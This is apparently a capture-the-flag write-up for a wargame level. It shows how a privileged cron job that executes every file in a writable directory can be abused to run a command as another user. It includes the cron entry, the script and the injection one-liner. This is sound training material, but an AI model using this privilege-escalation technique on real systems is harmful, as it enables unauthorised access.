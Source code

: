 ## level05

The system welcoming us with this message: `You have new mail.`

```bash
$ cat $MAIL

*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check this out: [сrontab.guru](https://crontab.guru/#*/2_*_*_*_*)

As we can understand, a cron is running on the system.
To ensure that use `top` command.

Every two minutes `/usr/sbin/openarenaserver` will be run with flag05 privileges.

From the beginning I started look the info about openarenaserver, but it is worthless as <br>
`/usr/sbin/openarenaserver` is a bash script:
```bash
$> cat /usr/sbin/openarenaserver

#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Every two minutes, all the files in the `/opt/openarenaserver/` will be run using bash and have only 5sec to execute. 

If we look at the acl of this folder, we'll see that level05 and flag05 are allowed to write into this directory.
```bash
getfacl /opt/openarenaserver
```

So the solution is to create a script, change the exec bit and wait 2 minutes.
```bash
echo 'getflag > /opt/openarenaserver/flag' > run.sh
chmod +x run.sh
```

:warning: Watch carefully and do not miss the flag, after 2 minutes script will delete it!